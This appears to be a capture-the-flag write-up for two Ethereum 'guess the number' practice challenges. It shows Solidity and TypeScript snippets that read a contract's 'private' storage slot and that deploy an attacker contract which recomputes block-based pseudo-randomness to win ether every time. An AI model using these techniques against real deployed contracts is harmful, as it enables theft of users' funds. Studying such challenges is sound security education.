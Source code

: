 ### Guess the random number

In this case the answer is generated "randomly" and stored "privately" in the contract:

```solidity
contract GuessTheRandomNumberChallenge {
  uint8 answer;

  function GuessTheRandomNumberChallenge() public payable {
    answer = uint8(keccak256(block.blockhash(block.number - 1), now));
  }
}

```

Data in smart contracts can be read despite being declared as "private". The key here is to understand how the storage works, and that the `answer` is stored in `slot 0` and therefore can be retrieved by calling:

```typescript
const secretNumber = await contract.provider.getStorageAt(contract.address, 0);
```

[Script](./scripts/lotteries/GuessTheRandomNumberChallenge.ts) | [Test](./test/lotteries/GuessTheRandomNumberChallenge.spec.ts)

### Guess the new number

The answer is now a "random" number:

```solidity
function guess(uint8 n) public payable {
  uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));
}

```

The EVM is deterministic, so it is not possible to achieve randomness inside it. Given the same inputs, it will output the same result, and we can explot this.

We can create a new contract that calculates the answer and calls the original contract with it. That way we can make sure that the "random" number is generated on the same block, and we can win every time.

```solidity
uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));
challenge.guess.value(1 ether)(answer);
```

You will also need to let the attacker contract receive Ether:

```solidity
function() public payable {}

```

And don't forget to transfer the Ether from the attacker contract to your address (or create a withdraw function only callable by you) 💸
